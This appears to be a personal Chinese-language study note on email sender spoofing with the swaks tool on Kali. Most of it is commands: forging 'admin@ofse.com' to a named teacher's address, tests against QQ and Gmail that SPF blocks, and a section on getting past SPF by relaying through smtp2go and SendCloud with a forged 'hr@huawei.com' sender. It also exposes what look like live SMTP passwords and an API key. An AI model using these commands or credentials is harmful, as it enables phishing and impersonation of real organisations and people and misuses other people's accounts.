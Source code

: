 ```yaml
---
tags:
  - 漏洞挖掘
---
```

实验在kali中进行，自带swaks

# 基本使用
----
```xml
-- to <收件人的邮箱>
-- from <要显示的发件人邮箱>
-- ehlo <伪造的邮件ehlo头>
-- body <邮件正文>
-- header <邮件头信息，subject为邮件标题>
```
当要攻击的邮件平台没有SPF记录时，直接使用swaks伪造发送即可！

```shell
# 发件人伪装成 admin@ofse.com, 攻击老师的邮箱：laptergrsd@139.com
swaks --body "test" --header "Subject:HelloWorld" -t laptergrsd@139.com -f "admin@ofse.com"
```

而大部分正规平台使用了SPF记录来拦截伪造发送的行为
```shell
# qq会检测from邮箱和user是否一致!
swaks --to 1286746591@qq.com --from 1286746591@qq.com --server smtp.qq.com:465 --tls-on-connect --auth-user 1286746591@qq.com --auth-password dwkbrpstreygbadh

# 直接攻击谷歌/qq邮箱，会被SPF拦截，550错误
swaks --to xiaoxiaomeitou@gmail.com --from admin@ofse.com

```

如果存在SPF记录，则利用第三方邮件托管平台伪造，但是一般会显示由xxx代发
swaks --to qpzami02361@chacuo.net --from admin@ofse.com
# 绕过 SPF
## 利用邮件托管平台绕过SPF记录
- [smtp2go](https://www.smtp2go.com/)（速度慢但免费发送量大，需要自己有域名）
- [SendCloud](https://www.sendcloud.net/)（速度快但免费发送量少）:key-2ed826514c45df1170f6098b60091abe
- 也可以自己搭建邮件服务器
这里我们使用smtp2go，注册账户并登录，smtp2go中需要存在有效SMTP Users和Domains才能正常投递邮件。

```shell
swaks --to 1286746591@qq.com --from hr@huawei.com --header 'Subject: test main' --ehlo gmail.com --body 'hello, I am blut' --server sendcloud.org -au sc_3vyf8g -ap 2ed826514c45df1170f6098b60091abe --header-X-Mailer gmail.com
```

 不太行得通，留一个坑在这以后慢慢研究吧！